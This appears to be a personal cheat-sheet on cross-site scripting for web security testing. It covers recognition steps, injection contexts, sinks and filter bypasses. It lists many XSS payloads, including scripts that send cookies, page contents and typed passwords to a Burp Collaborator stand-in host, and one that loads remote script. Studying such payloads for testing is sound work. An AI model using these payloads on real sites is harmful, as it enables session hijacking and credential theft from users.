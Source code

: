 # References
- Michael Sommer videos
- [Nahamsec Video](https://www.youtube.com/watch?v=ej2O4lOUzRc)
- [z3nsh3ll Playlist](https://www.youtube.com/playlist?list=PLWvfB8dRFqbZG5cw2OrnEmzSzorxRuxFV)
- https://public-firing-range.appspot.com/
- [Portswigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

# Tools and Burp Extensions
- Web Developer Tools
- DOM Invader - Burp Suite Browser Extension

# What is it?
- When an attacker is able to inject javascript into a website
- Three types:
    - Reflected
    - Stored
    - DOM

# Recognition
- Remember that HTML parsing occurs before Javascript parsing
- Figure out where the input ends up. Is it a tag attribute, a script tag, etc?
- Are certain tags or attributes blocked? Use intruder and an XSS cheatsheet to find unblocked tags/attributes
- Is there any special handling for data? Do urls get turned into links?
- How are special characters handled? insert '<>:;"\/ to find out if they are being encoded.
- Where to look:
    - Any input field that is reflected or stored somewhere
    - Url parameters
    - HTTP headers
    - Form fields
    - Source code: Check server response, Elements tab, Network tab for requests, loaded documents and JS files
```html
'"<a><<adsa>>\';//
```
- Introduce an event handler
```html
<u/onmouseover=alert(1)>test123
<img src=x onerror=alert(1)>
<!-- Other functions besides alert() can be used -->
Confirm
import('https://mysite.com/1.js')
print()
<!-- Example Below -->
<img src=x onerror=import('https://mysite.com/1.js')>
<!-- -->
```
- Every parameter in a url is a possible input field for XSS payloads
- Input a payload in the field and use `Control+F` to see if it reflects
- After that, use `Inspect` to check the DOM, also check the source code with the`view-source` functionality, or the HTTP response
- Determine the context where the input is seen 
- Figure out how to execute javascript within the context
- Determine what is getting encoded: ' " / \ < > ?
```html
test123;//
'"<a><<adsa>>\';//
</script>test123<img src=x onerror=alert(1)>
'; alert(1)//test123
%23f5f5f5</style>test123<script>alert(1)</script>
javascript:alert(document.cookie)
<iframe src="vulnerable-website#" onload="this.src+='<img src=1 onerror=print()>'" width="800" height="800"></iframe>
<iframe src="vulnerable-website" onload=this.style.width='100px'>
<img src=1 oNeRrOr=alert`1`>
"onmouseover="alert(1)
{{$on.constructor('alert(1)')()}}
&apos;-alert(1)-&apos;
"><h1>test</h1>
"onmouseover="alert()
https://"onmouseover="alert(1)
${alert(1)}
'-alert()-'
\'-alert(1)//
\"-alert(1)}//
'"><svg/onload=fetch(`//url/${encodeURIComponent(document.cookie)}`)>
```
- Check for other parameters in the source code to find more possible injection vectors
- Test all the fields that are presented within the webpage
- Check the element and see if it is being encoded `&quot;` as an HTML entity
- Try to `Edit as HTML` and see if the special characters got html encoded
- There might be controls put in place via the browser but not the API
- Some payloads might not be allowed via the UI but sending them via the HTTP request on burp suite bypasses these controls

# Some Exploit payloads
- Payload 1
```js
var xhr = new XMLHttpRequest();
xhr.onload=function(){
    const x = new XMLHttpRequest();
    x.open('GET', 'url=?'+btoa(this.responseText));
    x.send();
};
xhr.open('GET', 'URL');
xhr.send();
```
- Payload 2
```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://burp-collaborator/?'+btoa(document.cookie));
xhr.send();
```
- Payload 3
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
- Payload 4
```html
<!--watch video "CSRF XSS payload example"-->
<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 5);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'someemail@email.net');
data.append('website','https://website.net');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```
- Payload 5
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body: username.value+':'+this.value
});">
```
- Payload 6
```html
<script>
location = 'url-here';
</script>
```
- [CSRF XSS payload example](https://www.youtube.com/watch?v=N_87S9XVy0w)
- [Password Autofill-Payload example](https://www.youtube.com/watch?v=I6TOtXSOZ90)

# XSS Context
- Remember that HTML parsing occurs before Javascript parsing
- XSS in HTML tag attribute: Find a way to terminate the attribute and add a new one with an event handler that allows you to inject the payload
- href attribute - javascript:alert()
- XSS in Javascript template literals ``
```js
// Use the ${...} to insert the payload
${insert-payload-here}
```
- Try double curly brackets and see if it is evaluated `{{ 1 + 1 }}`
- Inside eval
- Are the angle brackets <> getting encoded/escaped? Is the encoding recursive or just the first instance? Try `<><img src=x onerror=alert()>`
- Hidden field or canonical link: Use accessKey event `accessKey="X" onclick="alert(1)"`[Portswigger Article](https://portswigger.net/research/xss-in-hidden-input-fields)
- Inside a quoted tag attribute Use HTML-encoding: After the HTML tags and attributes are parsed, the browser will perform HTML-decoding of the tag attribute values `&apos;-alert()-&apos;`

# Sinks
- innerHTML
    - On modern web browsers `script` elements inserted with innerHTML are sanitized
    - On modern web browsers `onload` events inside `svg` elements inserted with innerHTML are sanitized 
    - use `<img>` or `<iframe>` as viable options to inject a payload
    - [W3 HTML5 - innerHTML](https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0)
    - [Developer Mozilla - innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
- Sources and sinks in third-party dependencies
    - Each one has it quirks, investigate about them.
    - jQuery
        - attr(): this function changes the attributes of DOM elements. If the sink is an `href` attribute, then inject a malicious `javascript:payload-here`
        - $(): this function selector joined with the insecure usage of the `contains` method could be vulnerable due to malicious DOM element injection. Example involving `location.hash`, payload: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`
    - AngularJS
        - ng-app: If this attribute is used on a HTML element AngularJS will execute javascript inside double curly braces `{{$on.constructor('alert(1)')()}}`
# Obfuscation
- Some payloads may need to be obfuscated to bypass WAF
```html
<img src=1 oNeRrOr=alert`1`>
```
